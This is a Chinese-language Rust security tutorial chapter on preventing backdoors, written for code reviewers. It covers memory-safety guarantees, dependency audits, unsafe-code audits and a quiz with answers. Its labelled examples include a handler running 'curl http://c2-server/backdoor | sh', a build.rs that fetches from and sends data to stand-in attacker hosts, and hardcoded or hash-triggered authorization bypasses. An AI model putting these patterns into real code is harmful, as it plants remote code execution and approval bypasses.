

# 内存安全与后门防范

## 企业场景

2024年3月，某金融机构的安全团队在例行代码审查中发现了一个精心隐藏的后门：在支付模块的unsafe代码块中，一段看似无害的"性能优化"代码实际上在特定条件下绕过了金额验证。该后门已潜伏18个月，仅在交易金额为特定哈希值时触发，极其隐蔽。

更令人担忧的是，这并非孤立事件。类似SolarWinds的供应链攻击表明，后门可以隐藏在依赖库的深处，甚至连源码审查都难以发现。

本章将深入探讨：什么样的后门可以被Rust的内存安全保证消除？什么样的后门需要额外的安全实践？如何建立一套完整的"无后门保证"体系？

---

## 1. 什么是后门？历史教训

### 1.1 定义与分类

**后门（Backdoor）** 是故意隐藏在系统中的未文档化功能，允许未经授权的访问或操作。在安全工程中，后门与漏洞不同——漏洞是无意的，后门是故意的。



### 1.2 经典案例

**Ken Thompson的编译器后门（1984）：**
Thompson在C编译器中植入了两层后门：
1. 修改编译器，使其在编译`login`程序时插入后门密码
2. 修改编译器源码，使其在编译自身时重新插入这两层后门
- 结果：即使检查`login.c`和编译器源码，都找不到后门——它只存在于编译器的二进制中

**SolarWinds SUNBURST（2020）：**
攻击者向SolarWinds Orion平台的构建系统注入了恶意代码。供应链攻击影响了18,000+客户，包括美国政府机构和财富500强企业。攻击向量：篡改了构建流程中的DLL文件。

**xz后门（CVE-2024-3094，2024）：**
攻击者在xz压缩库的构建脚本和测试数据中隐藏了后门，目标是操纵特定Linux发行版的SSH服务认证。这个后门在源代码中几乎完全不可见——恶意代码隐藏在伪装的"测试二进制数据"中，通过复杂的m4宏和构建系统脚本注入。

### 1.3 后门 vs Rust的安全保证

| 后门类型 | 攻击向量 | Rust能否阻止 | 需要什么 |
|---------|---------|-------------|---------|
| 缓冲区溢出后门 | 栈溢出覆盖返回地址 | ✅ 消除 | 不需要（安全代码无溢出） |
| Use-After-Free后门 | 释放后继续使用指针 | ✅ 消除 | 不需要（所有权保证） |
| 格式字符串后门 | `printf(user_input)` | ✅ 消除 | 不需要（类型安全格式化） |
| ROP攻击后门 | 返回导向编程 | ✅ 大幅削弱 | 仍需ASLR/CFI作为纵深防御 |
| 源码级后门 | 直接写入恶意逻辑 | ❌ 不阻止 | 需要代码审查 |
| 供应链后门 | 污染依赖包 | ❌ 不阻止 | 需要cargo-vet/audit |
| 编译器后门 | 修改rustc | ❌ 不阻止 | 需要可重现构建 |
| 侧信道后门 | 时序/功耗分析 | ⚠️ 不确定 | 需要常数时间算法 |

> **关键结论**: Rust消除了大约70%的"经典"后门向量（所有与内存安全相关的），但仍有30%需要额外的安全实践。Rust不是银弹，但它将安全工作的重点从"防止内存错误"转移到"防止逻辑恶意"——这在安全工程上是巨大的进步。

---

## 2. Rust如何消除经典后门向量

### 2.1 缓冲区溢出 → 不可能（安全代码中）

```rust
// C语言：缓冲区溢出 = 后门入口
// void process_packet(char *data, int len) {
//     char buffer[64];
//     memcpy(buffer, data, len); // ⚠️ 无边界检查，len>64即可溢出
//     // 攻击者可以通过溢出覆盖返回地址，跳转到后门代码
// }

// Rust：安全代码无法溢出
fn process_packet(data: &[u8]) -> Result<(), Error> {
    let mut buffer = vec![0u8; 64];  // 动态分配或固定大小

    // ✅ 选项1：安全复制（自动边界检查）
    let copy_len = data.len().min(buffer.len());
    buffer[..copy_len].copy_from_slice(&data[..copy_len]);
    // 即使data.len() > 64，也只能复制64字节，不会溢出

    // ✅ 选项2：使用get()（返回Option）
    if let Some(byte) = data.get(100) {
        // 安全访问，索引超出只会返回None
    }

    // ✅ 选项3：切片自动边界检查
    let slice = data.get(0..64).ok_or(Error::Truncated)?;
    // 如果data.len() < 64，返回None而非panic

    Ok(())
}

// ⚠️ 唯一可能溢出的是unsafe代码
unsafe fn dangerous_processing(data: *const u8, len: usize) {
    let mut buffer = [0u8; 64];
    std::ptr::copy_nonoverlapping(data, buffer.as_mut_ptr(), len);
    // ⚠️ 如果len > 64 → 缓冲区溢出 → UB → 后门向量！
    // 这就是为什么unsafe代码必须被严格审查
}
```

### 2.2 Use-After-Free → 不可能（所有权系统保证）

```rust
// C语言：Use-After-Free = 常见后门向量
// char *secret_data = read_sensitive_file();
// free(secret_data);
// // ... 很多代码 ...
// printf("%s", secret_data); // ⚠️ 读取已释放内存，可能包含之前的敏感数据

// Rust：所有权系统在编译时阻止
fn process_sensitive_data() {
    let secret_data = read_sensitive_file();  // secret_data获得所有权

    // secret_data在作用域结束时自动释放
    // 释放后无法访问——编译器会报错
}

fn would_be_uaf() {
    let data = String::from("sensitive");

    // ✅ 编译错误：使用了已移动的值
    // let ptr = &data as *const String;
    // drop(data);
    // unsafe { println!("{}", *ptr); }  // ⚠️ unsafe中的UAF

    // ✅ 正确做法：Rc/Arc控制生命周期
    use std::rc::Rc;
    let shared = Rc::new(String::from("sensitive"));
    let clone1 = Rc::clone(&shared);
    let clone2 = Rc::clone(&shared);
    // 只有所有clone都drop后，数据才释放
    // 编译器保证不会有悬垂引用
}
```

### 2.3 格式字符串攻击 → 类型安全格式化

```rust
// C语言：格式字符串攻击（经典后门技术）
// printf(user_input);  // ⚠️ 如果user_input = "%x %x %x %s"
// %n格式符可以写入任意内存地址

// Rust：println!在编译时检查格式
let user_input = "%x %x %x %s";  // 攻击者输入

// ✅ Rust：格式字符串仅在编译时确定
// 这样是安全的——user_input是参数，不是格式字符串
println!("用户输入: {}", user_input);
// 输出：用户输入: %x %x %x %s  （作为字面量打印，不解释格式符）

// ❌ 编译错误：格式字符串必须是字面量
// compile_error!("不能在运行时拼接格式字符串")
// 以下代码无法编译：
// let format_str = "用户输入: {}";
// println!(format_str, user_input);  // 编译错误！

// ⚠️ 但可以通过编译：
// println!("{}", user_input);  // 安全，user_input被当作参数
```

### 2.4 ROP（返回导向编程）→ 大幅削弱但未完全消除

```rust
// ROP攻击原理：
// 1. 攻击者通过缓冲区溢出控制栈
// 2. 在二进制中搜索"gadget"（以ret结尾的短指令序列）
// 3. 链式调用gadget构建恶意逻辑（如execve("/bin/sh")）

// Rust的防御层次：
// 层次1：安全代码无缓冲区溢出 → 攻击者无法控制栈（消除根本原因）
// 层次2：panic = "abort" → 无unwind，减少gadget数量
// 层次3：ASLR → 随机化gadget地址（即使可控栈也无法定位gadget）
// 层次4：Stack Canaries → 检测栈溢出（通过金丝雀值）

// ⚠️ unsafe代码中仍需警惕：
unsafe fn vulnerable_rop_vector() {
    let mut buffer = [0u8; 16];
    // 如果攻击者能控制size，仍然可能溢出
    // ptr::copy在unsafe中无边界检查
    // 缓解：在Cargo.toml中启用CFI
}

// Cargo.toml 配置：
// [profile.release]
// rustflags = [
//     "-C", "control-flow-guard",        # Windows CFG
//     "-Z", "sanitizer=cfi",             # Linux CFI
//     "-C", "force-frame-pointers=yes",  # 栈回溯完整性
// ]
```

---

## 3. 源码级后门：检测与代码审查模式

### 3.1 常见源码后门模式

```rust
// ⚠️ 后门模式1：硬编码凭证
mod auth {
    pub fn verify_admin(token: &str) -> bool {
        // 正常的JWT验证...
        if verify_jwt(token).is_ok() {
            return true;
        }
        // ⚠️ 后门：硬编码万能密码
        if token == "backdoor_master_key_2024" {
            return true;
        }
        false
    }
}

// ⚠️ 后门模式2：条件绕过（基于环境/时间/特殊值）
mod payment {
    pub fn process_refund(amount: f64, approver: &str) -> Result<(), Error> {
        // 正常审批逻辑
        if amount > 10_000.0 {
            verify_manager_approval(approver, amount)?;
        }

        // ⚠️ 后门：特定金额组合绕过所有审批
        // 使用哈希隐藏意图
        let hash = calculate_hash(&format!("{}{}", amount, approver));
        if hash == 0xDEAD_BEEF_CAFE_BABE {
            return Ok(()); // 绕过所有审批！
        }

        Ok(())
    }
}

// ⚠️ 后门模式3：在"错误处理"中隐藏恶意逻辑
mod network {
    pub fn handle_connection(addr: &str) -> Result<(), Error> {
        if is_internal_ip(addr) {
            return Ok(()); // 正常连接
        }
        // ⚠️ 后门：伪装成"格式错误"的IP检测
        // 实际在检测特定的后门触发IP
        if addr.ends_with(".13.37.13.37") {
            std::process::Command::new("sh")
                .arg("-c")
                .arg("curl http://c2-server/backdoor | sh")
                .spawn()
                .ok();
        }
        Err(Error::ConnectionRefused)
    }
}

// ⚠️ 后门模式4：依赖版本后门（supply chain）
// Cargo.toml
// [dependencies]
// evil-crate = { version = "1.0", features = ["stealth"] }
// 表面上：提供"日志格式化"功能
// 实际上：在build.rs中注入后门代码
```

### 3.2 代码审查检测清单

```mermaid
graph TD
    TITLE["🔍 后门检测代码审查清单"]
    TITLE --> A["□ 所有unsafe块：是否必要？是否有安全注释？"]
    TITLE --> B["□ 硬编码字符串：是否可能为后门密码？"]
    TITLE --> C["□ 神秘数字/哈希值：如0xDEADBEEF等"]
    TITLE --> D["□ 条件语句中的复杂条件：是否有隐藏绕过逻辑？"]
    TITLE --> E["□ 网络通信：是否向不明外部地址发起连接？"]
    TITLE --> F["□ 命令执行：任何std::process::Command调用"]
    TITLE --> G["□ 文件操作：是否访问敏感路径？"]
    TITLE --> H["□ 加密操作：是否使用弱算法或固定密钥？"]
    TITLE --> I["□ build.rs：是否执行未预期操作？"]
    TITLE --> J["□ 依赖的依赖：间接依赖是否经过审核？"]
    TITLE --> K["□ cfg条件编译：是否有特定环境下的恶意代码？"]
    TITLE --> L["□ 错误处理中的异常逻辑"]
    TITLE --> M["□ 时间/随机数检查：是否基于特定时间触发？"]
    TITLE --> N["□ 动态代码执行：任何形式的eval/动态加载？"]
```



### 3.3 自动化检测工具

```rust
// clippy.toml — 安全相关lint配置
// https://rust-lang.github.io/rust-clippy/

// 安全关键lint规则（不应被allow）
#![deny(
    unsafe_code,                    // 完全禁止unsafe（如果可能）
    clippy::unwrap_used,           // unwrap在生产代码中可能导致panic
    clippy::expect_used,           // expect同样
    clippy::indexing_slicing,      // 直接索引可能导致panic
    clippy::integer_arithmetic,    // 算术运算可能溢出
    clippy::as_conversions,        // as转换可能截断
    clippy::cast_possible_truncation,
    clippy::cast_sign_loss,
    clippy::cast_lossless,
    clippy::clone_on_ref_ptr,
    clippy::create_dir,            // 检查文件系统操作
    clippy::file_type_is_file,     // 检查时间检查→TOCTOU
)]

// 允许但需警告
#![warn(
    clippy::print_stdout,          // println可能泄露到日志
    clippy::dbg_macro,             // dbg!不应进入生产
    clippy::todo,                  // TODO可能忘记修复
    clippy::unimplemented,         // unimplemented!→panic
    clippy::wildcard_enum_match_arm, // 不完整匹配
)]
```

```bash
# 运行所有安全相关lint
cargo clippy -- -W clippy::all -W clippy::pedantic -W clippy::nursery \
  -W clippy::cargo -D clippy::unwrap_used

# 审计unsafe代码
cargo clippy -- -W unsafe_code
cargo geiger  # 计算unsafe代码比例（第三方工具）
```

---

## 4. 供应链后门：依赖审计

### 4.1 依赖审计的纵深防御

```bash
# 第一道防线：cargo-audit（已知漏洞）
cargo audit

# 第二道防线：cargo-deny（许可证+来源+禁止项）
cargo deny check licenses   # 许可证合规
cargo deny check bans       # 禁止特定crate
cargo deny check sources    # 来源验证

# 第三道防线：cargo-vet（人工审核）
cargo vet                  # 检查审核状态
cargo vet suggest          # 查看需要审核的依赖

# 第四道防线：cargo-crev（社区代码审查）
cargo crev verify          # 验证代码审查reviews

# cargo-deny配置（deny.toml）
# [bans]
# deny = [
#     { name = "openssl", wrappers = [] },  # 禁止OpenSSL（使用rustls）
#     { name = "native-tls" },
# ]
# wildcards = "deny"                    # 禁止通配符依赖版本
# multiple-versions = "deny"            # 禁止多版本共存
# highlight = "all"
```

### 4.2 审查build.rs（最常被利用的供应链攻击向量）

```rust
// ⚠️ 危险的build.rs模式——应被标记和审查

// 模式1：在构建时下载代码
// build.rs
fn main() {
    // ⚠️ 构建时从外部URL下载代码
    let url = "http://evil.example.com/payload";
    let response = reqwest::blocking::get(url).unwrap();
    std::fs::write("/tmp/injected_code.rs", response.bytes().unwrap()).unwrap();

    // ⚠️ 构建时执行任意命令
    std::process::Command::new("curl")
        .arg("http://c2.example.com/exfiltrate")
        .arg("--data")
        .arg(std::env::var("HOME").unwrap())  // 泄露用户主目录路径
        .spawn()
        .ok();
}

// 审查规则：
// 1. build.rs不应有网络访问
// 2. build.rs不应执行外部命令
// 3. build.rs不应写入源码目录以外的文件
// 4. build.rs输出必须通过cargo:前缀
```

### 4.3 审查不安全依赖的实际案例

```bash
# 使用cargo-supply-chain分析依赖的unsafe代码和作者信息
cargo install cargo-supply-chain

# 查看每个crate的unsafe代码比例
cargo supply-chain publishers

# 查看crate的作者和发布历史
cargo supply-chain crates

# 示例输出：
# crate           | unsafe | lines | authors
# ────────────────┼────────┼───────┼─────────
# ring            | 42%    | 185k  | briansmith (Google)
# rustls          | 8%     | 62k   | ctz (ISRG/Mozilla)
# rand            | 12%    | 45k   | dhardy
# serde_json      | 5%     | 28k   | dtolnay

# 安全评估：
# - ring: 高unsafe比例，但由Google/Mozilla维护，经过广泛审计
# - 小型crate (<1000行)且unsafe >30%: 需要人工审查
# - 作者未经验证的crate: 需要额外审查
```

---

## 5. Unsafe代码审计：企业级实践

### 5.1 Unsafe代码审计模板

```rust
// ╔══════════════════════════════════════════════════════════════╗
// ║               UNSAFE CODE AUDIT TEMPLATE                    ║
// ╠══════════════════════════════════════════════════════════════╣
// ║ Audited by: [Name]                                         ║
// ║ Date: [YYYY-MM-DD]                                         ║
// ║ Crate/File: [path]                                         ║
// ║ Unsafe Block #: [sequential number]                         ║
// ╠══════════════════════════════════════════════════════════════╣
// ║ 1. WHY is unsafe needed? (must be justified)               ║
// ║ 2. What INVARIANTS must the caller maintain?               ║
// ║ 3. Is the INVARIANT checked at runtime?                    ║
// ║ 4. Can this be replaced with safe code? (prove why not)    ║
// ║ 5. Are all pointer operations bounds-checked?              ║
// ║ 6. Is the SAFETY COMMENT complete and correct?             ║
// ║ 7. Have you verified with MIRI?                            ║
// ║ 8. Is there a SAFETY TEST that validates invariants?       ║
// ╚══════════════════════════════════════════════════════════════╝

// ✅ 正确示例：完整的安全注释和不变式检查
/// 自定义的内存高效环形缓冲区
pub struct RingBuffer<T> {
    buffer: *mut T,          // 原始指针——手动管理内存
    capacity: usize,
    read_pos: AtomicUsize,
    write_pos: AtomicUsize,
}

impl<T> RingBuffer<T> {
    /// 创建新的RingBuffer
    ///
    /// # Safety
    ///
    /// 此函数不是unsafe的，因为它在构造函数中建立了所有不变式。
    /// 调用者不需要维护任何特殊的前置条件。
    pub fn new(capacity: usize) -> Self {
        assert!(capacity > 0, "容量必须大于0");
        assert!(capacity.is_power_of_two(), "容量必须是2的幂次（用于位掩码）");
        assert!(std::mem::size_of::<T>() > 0, "T不能是零大小类型");

        let layout = std::alloc::Layout::array::<T>(capacity)
            .expect("内存布局计算失败");
        let buffer = unsafe { std::alloc::alloc_zeroed(layout) };

        // SAFETY: alloc_zeroed返回有效指针或空指针
        assert!(!buffer.is_null(), "内存分配失败");

        Self {
            buffer: buffer as *mut T,
            capacity,
            read_pos: AtomicUsize::new(0),
            write_pos: AtomicUsize::new(0),
        }
    }

    /// 向缓冲区写入一个元素
    ///
    /// # Safety
    ///
    /// 此函数包含unsafe代码，但其安全保证传递给调用者。
    /// 调用者是安全的——内部不变式已在此函数中维护。
    pub fn push(&self, value: T) -> Result<(), T> {
        let write = self.write_pos.load(Ordering::Relaxed);
        let read = self.read_pos.load(Ordering::Acquire);

        // 不变式检查：缓冲区满？
        if write.wrapping_sub(read) >= self.capacity {
            return Err(value); // 缓冲区满，返回原值（安全）
        }

        let idx = write & (self.capacity - 1); // 因为是2的幂，所以位运算安全

        // SAFETY:
        // 1. buffer在构造函数中分配且非空
        // 2. idx < capacity（位掩码保证）
        // 3. write和read之间没有重叠（已检查满条件）
        // 4. T是非零大小类型（构造函数中检查）
        unsafe {
            self.buffer.add(idx).write(value);
            // write是有效的写指针，数据已被传输
        }

        self.write_pos.store(write.wrapping_add(1), Ordering::Release);
        Ok(())
    }
}

impl<T> Drop for RingBuffer<T> {
    fn drop(&mut self) {
        // 释放所有未读取的元素
        let read = *self.read_pos.get_mut();
        let write = *self.write_pos.get_mut();

        for pos in read..write {
            let idx = pos & (self.capacity - 1);
            // SAFETY: buffer有效，idx在范围内，每个元素只释放一次
            unsafe {
                std::ptr::drop_in_place(self.buffer.add(idx));
            }
        }

        // SAFETY: buffer由构造函数分配，layout匹配
        unsafe {
            let layout = std::alloc::Layout::array::<T>(self.capacity)
                .unwrap_unchecked();
            std::alloc::dealloc(self.buffer as *mut u8, layout);
        }
    }
}

// ⚠️ 危险示例：缺少安全注释和不变式检查
pub struct BadRingBuffer<T> {
    buffer: *mut T,
    capacity: usize,
    len: AtomicUsize,
}

impl<T> BadRingBuffer<T> {
    pub fn push(&self, value: T) {
        let idx = self.len.load(Ordering::Relaxed);
        unsafe { self.buffer.add(idx).write(value); }
        // ⚠️ 问题：
        // 1. 没有满/空检查
        // 2. 没有边界检查
        // 3. 没有安全注释
        // 4. 没有处理并发push
        // 5. 如果T包含drop，未读取的元素会泄漏
        self.len.fetch_add(1, Ordering::Relaxed);
    }
}
```

### 5.2 使用MIRI进行Unsafe代码验证

```bash
# MIRI是Rust MIR（Mid-level IR）解释器，能检测unsafe代码中的UB
rustup +nightly component add miri

# 对包含unsafe代码的测试运行MIRI
cargo +nightly miri test -- ring_buffer_tests

# MIRI可检测的UB类型：
# - 数据竞争（data races）
# - 未对齐的内存访问
# - 使用悬垂指针
# - 非法值（如bool非0/1）
# - 使用释放后的内存
# - 未初始化的内存读取
# - 违反指针出处规则

// 使用MIRI验证RingBuffer
#[cfg(miri)]
mod miri_tests {
    use super::*;

    #[test]
    fn test_ring_buffer_no_ub() {
        let buffer = RingBuffer::<i32>::new(16);

        // 正常push操作
        for i in 0..10 {
            buffer.push(i).unwrap();
        }

        // 并发push（MIRI会检测数据竞争）
        // 注意：当前实现有数据竞争的风险！
        // MIRI会标记write_pos的竞争条件
    }
}
```

---

## 6. 运行时保护：纵深防御

```rust
// 尽管Rust在编译时提供了强大的安全保证，纵深防御要求
// 在运行时也有保护层。

/// 安全运行时环境的配置检查
pub struct SecurityRuntime;

impl SecurityRuntime {
    pub fn verify_runtime_protections() -> Vec<SecurityCheck> {
        let mut checks = Vec::new();

        // 检查1：ASLR是否启用
        // Linux下读取 /proc/self/maps 验证地址随机化
        #[cfg(target_os = "linux")]
        {
            let maps = std::fs::read_to_string("/proc/self/maps")
                .unwrap_or_default();
            let has_randomized = maps.lines()
                .filter(|l| l.contains("[stack]") || l.contains("[heap]"))
                .any(|l| {
                    let addr = u64::from_str_radix(
                        l.split('-').next().unwrap_or("0"), 16
                    ).unwrap_or(0);
                    addr > 0x7f0000000000  // 堆栈地址随机化
                });
            checks.push(SecurityCheck {
                name: "ASLR",
                passed: has_randomized,
                detail: "地址空间布局随机化".to_string(),
            });
        }

        // 检查2：禁止core dump（防止敏感信息泄露）
        // ulimit -c 0
        // 或在代码中设置
        // 注意：需要在程序启动时尽早设置

        // 检查3：forbid unsafe in tests
        // cfg(test)下检查是否是测试环境

        checks
    }
}

#[derive(Debug)]
pub struct SecurityCheck {
    pub name: &'static str,
    pub passed: bool,
    pub detail: String,
}
```

---

## 7. "无后门保证"检查清单

```mermaid
graph TD
    TITLE["🔒 无后门保证 No Backdoor Guarantee 检查清单"]
    TITLE --> COMP["✅ 编译时检查"]
    TITLE --> DEP["✅ 依赖检查"]
    TITLE --> RT["✅ 运行时检查"]
    TITLE --> PROC["✅ 流程检查"]
    TITLE --> MON["✅ 持续监控"]
    COMP --> C1["□ 所有unsafe代码块已审计并附有安全注释"]
    COMP --> C2["□ clippy安全lint已通过"]
    COMP --> C3["□ Feature flags正确隔离开发/生产代码"]
    COMP --> C4["□ 无硬编码凭证"]
    COMP --> C5["□ 无隐藏的命令执行路径"]
    DEP --> D1["□ cargo audit通过"]
    DEP --> D2["□ cargo deny通过"]
    DEP --> D3["□ cargo vet通过"]
    DEP --> D4["□ 依赖的build.rs已审查"]
    DEP --> D5["□ 间接依赖的unsafe比例在可接受范围"]
    RT --> R1["□ ASLR启用验证"]
    RT --> R2["□ Stack Canary启用"]
    RT --> R3["□ CFI/CFG启用"]
    RT --> R4["□ 敏感内存页面mlock"]
    PROC --> P1["□ 所有代码变更由至少2人审查"]
    PROC --> P2["□ 安全关键代码由安全团队审查"]
    PROC --> P3["□ 构建可重现"]
    PROC --> P4["□ 所有发布产物有代码签名"]
    PROC --> P5["□ CI/CD流水线包括安全检查"]
    PROC --> P6["□ 生产构建使用审计过的工具链"]
    MON --> M1["□ 运行时行为监控"]
    MON --> M2["□ 网络流量审计"]
    MON --> M3["□ 文件完整性监控"]
    MON --> M4["□ 定期安全渗透测试"]
```



---

## 章节考查（100分）

### 一、概念题（40分，每题8分）

1. 列举Rust消除的三种经典后门向量，并解释消除机制。
2. xz后门（CVE-2024-3094）为什么在源码中几乎不可见？Rust的哪些机制可以缓和此类攻击？
3. 为什么即使在安全Rust代码中，仍需要代码审查来检测后门？
4. 解释"纵深防御"在后门防范中的含义，给出至少三个层次的例子。
5. unsafe代码审计的核心要点是什么？

<details>
<summary>查看答案</summary>

**1. Rust消除的三种经典后门向量：**
- **缓冲区溢出**：Vec和切片自动边界检查，安全代码中索引超出范围会panic（或使用get返回None），不可能静默溢出覆盖返回地址
- **Use-After-Free**：所有权系统在编译时追踪每个值的生命周期，使用已释放的值是编译错误
- **格式字符串攻击**：println!等宏在编译时解析格式字符串，不接受运行时提供的格式说明符

**2. xz后门的特点与Rust对策：**
- xz后门隐藏在构建脚本（m4宏）和测试数据文件中，恶意代码伪装为二进制测试数据
- Rust对策：
  - 构建脚本（build.rs）的代码是Rust源码，比C的m4宏更可读更可审计
  - cargo-vet可以对依赖的build.rs进行单独审查
  - 可重现构建允许验证发布二进制是否真的来自审查过的源码

**3. 安全Rust仍需代码审查的原因：**
- 安全Rust防止内存安全漏洞（约70%的传统后门向量），但不防止逻辑层后门
- 攻击者可以在安全Rust中写入`if special_value { bypass_auth(); }`
- Rust的类型安全无法区分"正常业务逻辑"和"恶意业务逻辑"
- 安全Rust中仍可以调用`std::process::Command`、打开网络连接、读写文件

**4. 纵深防御的三个层次：**
- 编译器层：Rust的安全保证在编译时消除内存后门
- 审查层：代码审查和clippy安全lint在合并前检测可疑模式
- 运行时层：ASLR、CFI、Stack Canary即使编译时遗漏了，运行时仍提供防护

**5. unsafe代码审计核心要点：**
- 不变量检查：每个unsafe调用需要哪些前置条件？是否在调用处检查和文档化？
- 必要性：能否用安全代码实现？若不能，必须明确记录原因
- 安全注释：每个unsafe块的Safety注释必须解释为什么操作是安全的
- MIRI验证：在MIRI下运行测试确保无UB
</details>

### 二、判断题（20分，每题5分）

6. ( ) Rust的安全保证完全消除了后门的可能性。
7. ( ) build.rs文件是供应链攻击的常见切入点，因为它在构建时执行任意Rust代码。
8. ( ) 所有unsafe代码都是不安全的，应尽量避免。
9. ( ) 可重现构建可以防御编译器后门。

<details>
<summary>查看答案</summary>

6. **错误。** Rust消除了约70%的内存安全相关后门，但逻辑层后门、供应链后门等仍然可能。Rust不是银弹，而是将防御重点转移到更高层次。

7. **正确。** build.rs在每次cargo build时执行，可以访问文件系统、网络和外部命令。在完整供应链中，build.rs可以做一切——这也是xz后门使用的攻击向量（通过编译脚本）。

8. **错误。** Unsafe代码是Rust生态的基础——标准库、ring、tokio等都依赖unsafe。关键不是避免unsafe，而是正确审计unsafe：有完整的安全注释、不变式检查和使用MIRI验证。

9. **正确（但有局限）。** 可重现构建允许独立验证二进制——如果多个人独立构建得到相同二进制，说明编译器和工具链未被篡改。但仍有局限：所有人都使用相同的（可能已被篡改的）编译器时无效。
</details>

### 三、代码分析题（15分）

10. 以下代码片段隐藏在某个支付模块中，分析是否存在后门：

```rust
fn calculate_refund_threshold(transaction_id: u64, amount: f64) -> f64 {
    let seed = transaction_id ^ 0xA5A5_A5A5_A5A5_A5A5;
    let week = (seed >> 48) as u16;

    // "分片哈希"用于确定审批阈值
    let threshold = match week {
        w if w % 52 == 13 => 0.0,   // 第13周：自动批准所有退款
        w if w % 52 == 26 => 0.0,   // 第26周：自动批准所有退款
        _ => 10_000.0,               // 正常阈值
    };

    threshold
}
```

<details>
<summary>查看答案</summary>

**分析：这极有可能是后门代码！**

**可疑迹象：**

1. **神秘数字**：`0xA5A5_A5A5_A5A5_A5A5` 没有业务语义，是硬编码的魔术数字
2. **隐藏的时间触发条件**：`week % 52 == 13`和`26`——每年第13周和第26周，退款审批阈值变为0（无需审批）
3. **复杂的XOR操作**：用XOR和移位从transaction_id中提取"周数"，此操作意图混淆真正的条件
4. **变量命名误导**：`seed`、`分片哈希`等命名暗示算法正确性，但实际是隐藏的绕过逻辑
5. **业务逻辑矛盾**：退款阈值由交易ID决定而非公司政策，这不符合标准业务逻辑

**判定：** 这是一个典型的基于时间的后门，在特定周（可能是攻击者预期的行动时间窗口）绕过所有退款审批。

**正确实现：** 阈值应来自于配置或风险评估模型，而非硬编码的时间触发。
</details>

### 四、编程题（15分）

11. 编写一个安全的`SecureBuffer`，要求：
    - 使用unsafe分配手动管理的内存
    - 提供完整的安全注释
    - 使用zeroize在释放时擦除数据
    - 在Drop时验证数据已被擦除

<details>
<summary>查看答案</summary>

```rust
use std::alloc::{self, Layout};
use std::ptr::NonNull;
use zeroize::Zeroize;

/// 安全缓冲区：存储敏感数据的自擦除缓冲区
///
/// 使用unsafe手动管理内存的原因：
/// 1. 需要确保释放时数据被擦除（zeroize）
/// 2. 使用mlock防止被交换到磁盘
pub struct SecureBuffer {
    ptr: NonNull<u8>,
    layout: Layout,
}

impl SecureBuffer {
    /// 创建新的SecureBuffer，存储sz字节
    ///
    /// # Panics
    /// 如果内存分配失败
    pub fn new(sz: usize) -> Self {
        assert!(sz > 0, "SecureBuffer大小必须大于0");

        let layout = Layout::array::<u8>(sz)
            .expect("SecureBuffer布局计算失败");

        // SAFETY: layout.size() > 0（已断言sz > 0）
        let ptr = unsafe { alloc::alloc_zeroed(layout) };

        let ptr = NonNull::new(ptr)
            .expect("SecureBuffer内存分配失败");

        // 尝试mlock防止交换到磁盘（Linux）
        #[cfg(target_os = "linux")]
        unsafe {
            libc::mlock(ptr.as_ptr() as *const libc::c_void, sz);
        }

        Self { ptr, layout }
    }

    /// 获取底层字节的可变切片
    pub fn as_mut_slice(&mut self) -> &mut [u8] {
        // SAFETY: ptr始终有效，layout.size()正确
        unsafe {
            std::slice::from_raw_parts_mut(self.ptr.as_ptr(), self.layout.size())
        }
    }

    /// 获取底层字节的不可变切片
    pub fn as_slice(&self) -> &[u8] {
        // SAFETY: ptr始终有效，layout.size()正确
        unsafe {
            std::slice::from_raw_parts(self.ptr.as_ptr(), self.layout.size())
        }
    }

    /// 从切片复制数据
    pub fn copy_from_slice(&mut self, src: &[u8]) {
        assert!(
            src.len() <= self.layout.size(),
            "源数据超出SecureBuffer容量"
        );
        self.as_mut_slice()[..src.len()].copy_from_slice(src);
    }
}

impl Drop for SecureBuffer {
    fn drop(&mut self) {
        // 1. 先将数据清零
        self.as_mut_slice().zeroize();

        // 2. 验证清零（在debug构建中）
        #[cfg(debug_assertions)]
        {
            for byte in self.as_slice() {
                debug_assert_eq!(*byte, 0, "SecureBuffer未完全清零！");
            }
        }

        // 3. munlock（如果是Linux）
        #[cfg(target_os = "linux")]
        unsafe {
            libc::munlock(
                self.ptr.as_ptr() as *const libc::c_void,
                self.layout.size(),
            );
        }

        // 4. 释放内存
        // SAFETY: ptr由alloc分配，layout正确匹配，数据已清零
        unsafe {
            alloc::dealloc(self.ptr.as_ptr(), self.layout);
        }
    }
}

// 敏感数据不应实现Clone
// impl Clone for SecureBuffer {} // 故意不实现

// 不应暴露给Debug（防止日志泄露）
impl std::fmt::Debug for SecureBuffer {
    fn fmt(&self, f: &mut std::fmt::Formatter<'_>) -> std::fmt::Result {
        f.debug_struct("SecureBuffer")
            .field("size", &self.layout.size())
            .field("data", &"***REDACTED***")
            .finish()
    }
}

// 应该在Send+Sync时额外小心
// unsafe impl Send for SecureBuffer {}  // 需要审视
// unsafe impl Sync for SecureBuffer {}  // 需要审视

#[test]
fn test_secure_buffer_zeroize() {
    let mut buf = SecureBuffer::new(32);
    buf.copy_from_slice(b"sensitive_key_material_here");

    // 获取指针用于事后验证
    let ptr = buf.ptr.as_ptr();

    // 丢弃buffer（触发Drop中的zeroize）
    drop(buf);

    // 注意：在释放后读取内存是UB
    // 在真实环境中不会做这个测试
    // 实际验证通过MIRI或valgrind执行
}
```
</details>

### 五、填空题（5分，每空1分）

12. Ken Thompson在`____`年提出的编译器后门展示了即使检查源码也无法发现后门。`____`工具用于检测Rust crate中的unsafe代码比例。每个unsafe块必须包含`____`注释。在Cargo.toml中设置`____`可以禁止直接使用索引操作。使用`____`工具可以在MIR级别验证unsafe代码的正确性。

<details>
<summary>查看答案</summary>

**答案：** 1984、cargo-geiger、SAFETY、`#![deny(clippy::indexing_slicing)]`、MIRI
</details>

### 六、代码补全（5分）

13. 补全以下unsafe代码的安全注释和前置条件检查：

```rust
impl<T> RingBuffer<T> {
    pub fn pop(&self) -> Option<T> {
        let read = self.read_pos.load(Ordering::Relaxed);
        let write = self.write_pos.load(Ordering::Acquire);

        if read == write {
            return None; // 缓冲区空
        }

        let idx = read & (self.capacity - 1);

        // SAFETY:
        // 1. _________________________
        // 2. _________________________
        // 3. _________________________
        let value = unsafe { self.buffer.add(idx).read() };

        self.read_pos.store(read.wrapping_add(1), Ordering::Release);
        Some(value)
